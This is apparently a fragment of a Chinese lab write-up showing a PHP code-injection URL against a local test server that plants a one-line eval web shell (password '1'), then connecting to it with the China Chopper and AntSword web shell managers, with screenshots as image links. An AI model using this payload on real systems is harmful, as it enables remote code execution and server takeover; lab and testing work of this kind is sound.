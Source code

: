 http://192.168.1.21:8080/index.php?s=a/b/c/${@print(eval($_POST[1]))}

[![img](assets/1696730458429-c581d3ed-ec1f-4787-b4eb-ded1d1227c89.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203139515-412932237.png)

菜刀连接

http://192.168.1.21:8080/index.php?s=a/b/c/${@print(eval($_POST[1]))} 密码1

[![img](assets/1696730458445-5239d49e-597f-4c14-91d3-7044255846ac.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203155153-116953991.png)

蚁剑连接

[![img](assets/1696730458684-aa78adee-db43-43ea-af80-9baf655be33a.png)](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203207129-775220279.png)
